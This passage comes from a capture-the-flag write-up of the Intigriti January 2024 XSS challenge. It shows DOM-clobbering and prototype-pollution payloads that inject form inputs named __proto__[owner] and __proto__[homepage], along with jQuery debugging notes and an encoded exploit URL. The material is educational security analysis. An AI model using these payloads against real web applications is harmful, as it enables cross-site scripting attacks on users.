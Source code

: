 ```html
name=
<form id="search"><input name="__proto__[owner]" value="cat" /><input name="__proto__[homepage]" value="https://crypto.cat" /></form>
&search=test
```

It works! When the breakpoint triggers, we check the console and see that `repo.homepage` is set to `https://crypto.cat` (yes, I wish I owned this domain 😒).

The `src` of the `homepage` element is now set to `https://crypto.cat`. Scrolling up to the top of `search.ejs`, we can confirm that `homepage` refers to a hidden iframe.

```html
<iframe id="homepage" hidden></iframe>
```

If only we could set `repo.homepage` to `javascript:alert(document.domain)`, we would be finished already. Unfortunately, there doesn't appear to be any way to get around the `repo.homepage.startsWith("https://")` condition.

#### jQuery exception

Additionally, our new payload triggers the following exception in jQuery.

```js
Uncaught (in promise) TypeError: cannot use 'in' operator to search for "set" in "cat"
```

Interestingly, it's complaining about `cat`, which was the value of `owner`. However, it only does so when the `homepage` is also set, indicating that the code which sets the iframe attributes is to blame.

```js
$("#homepage").attr({
    src: repo.homepage,
    hidden: false,
});
```

Many players studied jQuery to understand the underlying cause of this error, a process made significantly easier through the use of [sourceMaps](https://web.dev/articles/source-maps), which negates the need to debug minified JS code. You can find several examples in [Community Writeups](0124.md#community-writeups) but [this one](https://jorianwoltjer.com/blog/h/hacking/intigriti-xss-challenge/intigriti-january-xss-challenge-0124#debugging-minimized-javascript-libraries) is nice 👌

TLDR; the loop inside `attr` will crash when trying to process strings. That includes our `owner` and `homepage` prototypes. In fact, `homepage` _must_ be a string in order to meet this requirement.

```js
if (repo.homepage && repo.homepage.startsWith("https://"))
```

We can verify this by [changing the prototypes to arrays](https://challenge-0124.intigriti.io/challenge?name=%3Cform%20id%3D%22search%22%3E%3Cinput%20name%3D%22__proto__%5Bowner%5D%5B%5D%22%20value%3D%22cat%22%3E%3Cinput%20name%3D%22__proto__%5Bhomepage%5D%5B%5D%22%20value%3D%22https%3A%2F%2Fcrypto.cat%22%3E%3C%2Fform%3E&search=test) (`for (i in key)` is valid for an array).

```html
name=
<form id="search"><input name="__proto__[owner][]" value="cat" /><input name="__proto__[homepage][]" value="https://crypto.cat" /></form>
&search=test
```
